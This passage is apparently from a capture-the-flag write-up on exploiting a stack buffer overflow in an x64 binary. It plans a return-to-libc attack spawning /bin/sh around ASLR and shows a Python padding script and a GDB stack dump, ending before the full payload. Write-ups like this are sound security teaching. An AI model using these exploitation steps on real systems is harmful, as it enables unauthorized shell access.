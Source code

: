 Great! so we can use null bytes in our input. But have to remember to avoid using newline as a character.

So, to sum up the first part of the analysis:

* We have to exploit the buffer overflow vulnerability to somehow redirect the program to execute arbitrary code, I'm thinking of `system("/bin/sh")`
* We have to assume ASLR is on
  * We do not know the location which `system` is placed
  * I cannot use the `"/bin/sh"` string by writing it to the stack. And of course we also do not know the location of that string in `libc` because of ASLR
* Even if ASLR might be defeated, and we could learn the base address which libc is being loaded to - **the offsets of stuff may change because the libc version of the remote machine may be different from ours**, we have to keep that in mind when exploiting remote machines


### Exploiting the binary locally
Before I worry myself about the remote machine and ASLR and glibc version; I try to see if I can utilize the buffer overflow locally. I usually start by manipulating the data *manually* in GDB, then formulate a payload using a Python script.

I start with a simple python script that fills the buffer (of size 64 if we recall), and overrides the frame pointer (the old EBP, of size 8 bytes because this binary is x64). So we need `64+8=72` bytes to fill the buffer and then we will be able to override the return address on the stack. Let's try!

```Python
PAD = "A" * 72

print PAD
```

Feeding this input to the binary our stack looks like this
```
gdb-peda$ x/32gx $rsp
0x7fffffffdef0:	0x00007fffffffe028	0x0000000100f0b5ff
0x7fffffffdf00:	0x4141414141414141	0x4141414141414141
0x7fffffffdf10:	0x4141414141414141	0x4141414141414141
0x7fffffffdf20:	0x4141414141414141	0x4141414141414141
0x7fffffffdf30:	0x4141414141414141	0x4141414141414141
0x7fffffffdf40:	0x4141414141414141	0x00007ffff7a0000a
0x7fffffffdf50:	0x0000000000000000	0x00007fffffffe028
0x7fffffffdf60:	0x0000000100000000	0x0000000000400626
0x7fffffffdf70:	0x0000000000000000	0xb9494950d49272fd
0x7fffffffdf80:	0x0000000000400530	0x00007fffffffe020
0x7fffffffdf90:	0x0000000000000000	0x0000000000000000
0x7fffffffdfa0:	0x46b6b62f66d272fd	0x46b6a6906eec72fd
0x7fffffffdfb0:	0x00007fff00000000	0x0000000000000000
0x7fffffffdfc0:	0x0000000000000000	0x00007ffff7de5733
0x7fffffffdfd0:	0x00007ffff7dcb638	0x000000001d423c36
0x7fffffffdfe0:	0x0000000000000000	0x0000000000000000
gdb-peda$ bt
#0  0x000000000040066b in main ()
#1  0x00007ffff7a0000a in ?? () from /lib/x86_64-linux-gnu/libc.so.6
#2  0x0000000000000000 in ?? ()
gdb-peda$
```
Let's look for the `system` function location, and the `/bin/sh` string in libc, and load them
